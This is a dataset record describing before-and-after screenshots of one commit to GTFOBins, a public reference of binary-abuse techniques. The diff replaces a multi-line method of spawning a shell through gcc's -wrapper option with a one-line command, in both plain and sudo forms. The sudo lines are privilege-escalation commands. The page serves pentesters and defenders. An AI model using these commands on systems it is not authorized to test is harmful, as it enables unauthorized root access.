

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gcc.md, in a window 1280 px wide. Shown: the top 636 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Simplify gcc shell

```diff
--- a/_gtfobins/gcc.md
+++ b/_gtfobins/gcc.md
@@ -1,17 +1,7 @@
 ---
 functions:
   shell:
-    - code: |
-        TF=$(mktemp -d)
-        echo '#!/bin/sh' > $TF/x
-        echo '/bin/sh' >> $TF/x
-        chmod +x $TF/x
-        gcc -wrapper $TF/x $TF/x
+    - code: gcc -wrapper /bin/sh,-s .
   sudo:
-    - code: |
-        TF=$(mktemp -d)
-        echo '#!/bin/sh' > $TF/x
-        echo '/bin/sh' >> $TF/x
-        chmod +x $TF/x
-        sudo gcc -wrapper $TF/x $TF/x
+    - code: sudo gcc -wrapper /bin/sh,-s .
 ---
```
